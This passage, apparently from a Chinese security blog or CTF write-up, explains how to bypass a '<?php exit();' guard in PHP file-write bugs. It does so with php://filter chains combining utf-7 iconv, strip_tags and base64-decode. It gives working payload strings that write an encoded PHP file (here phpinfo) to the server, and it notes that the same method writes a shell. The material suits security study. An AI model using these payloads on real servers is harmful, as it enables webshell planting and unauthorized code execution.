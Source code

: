 前面介绍单独用 base64 编码是不可行的，那么来一套组合拳是否可以呢？答案肯定是可以的，这里感谢大兄弟郁离歌提供的方法，通过 iconv 将 utf8 编码转为 utf7 编码，从而把 **=** 给转了，就不会影响到 base64 的解码了👇  

```
#base64编码前补了AA，原理一样，补齐位数
$a='php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode|AAPD9waHAgcGhwaW5mbygpOz8+/resource=Cyc1e.php';
```

我们看一下转码后的结果

```
UTF-8:php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode|AAPD9waHAgcGhwaW5mbygpOz8+/resource=Cyc1e.php
👇
UTF-7:php://filter/convert.iconv.utf-8.utf-7+AHw-convert.base64-decode+AHw-AAPD9waHAgcGhwaW5mbygpOz8+-/resource+AD0-Cyc1e.php
```

这样就成功的把 = 给转了，base64 编码没有受到影响，一样可以正常的解码~

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeDRDemYwl5tf2F20VCBOmNSEG9C6LcqqDibxB4ltA6KhovdKykIf6WgnlJjptmOyoLOcfzoT3auVw/640?wx_fmt=png)

所以对于 base64 的运用，只要找到一个能把 **=** 转了同时又不影响 base64 编码后的字符的转码方式即可

### 第三套连招

我们来用一下 strip_tags 方法 &&base64 的组合，不过之前构造的这种方法有局限性，要求服务器是 linux 系统，所以之前没写。因为前面介绍过 strip_tags 去除的是完整的标签以及内容，而 base64 要求中间不能出现 **`=`** 所以把他们二者组合起来👇  

```
$a = 'php://filter/write=string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8+.php';
```

理解起来也很简单，在文件名前加上`?>`把`<?php exit();`闭合，同时 = 也在闭合标签之间，所以利用 strip_tags 处理的时候直接把`<?php ...... ?>`内的所有内容都删除了，然后对剩下的部分，也就是`PD9waHAgcGhwaW5mbygpOz8+.php`进行 base64 解码，为什么说这种构造 Windows 不行呢，因为 Windows 不支持文件名中有`?`、`>`这类字符。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeDRDemYwl5tf2F20VCBOmNx30ic5gPv5EVnojA6OhibmQTNicm5pKSsY6NXSD09h54UqwPunUDm1WCA/640?wx_fmt=png)

如果觉得文件名太难看了，那么可以利用`../`来构造👇

```
$a = 'php://filter/write=string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8+/../Cyc1e.php';
```

把`?>PD9waHAgcGhwaW5mbygpOz8+`作为目录名（不管存不存在），再用`../`回退一下，这样创建出来的文件名为 Cyc1e.php，这样创建出来的文件名就正常了

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeDRDemYwl5tf2F20VCBOmNuVxPfunY8A7wuH2HbLeqMdP8rKQlicSO6yavXJ4gdcLzicUWKIGRic3Jg/640?wx_fmt=png)

这里为何不用 strip_tags 呢？因为 rot13 转换的同样会被 strip_tags 方法给删除了，而 UCS-2 或 UCS-4 构造的也同样会被 strip_tags 方法给删除，所以需要找其他的编码方式进行构造。

这里做个小 tips，由于 strip_tags 去除的是一个闭合的标签，所以`?>`可以放在我们构造的 shell 编码前，这样在 contents 上就直接把 shell 前的字符去了，只要 shell 的编码不会被删除，就可以解码回 shell 写入文件中，本菜懒，就不一个一个过滤器试了~
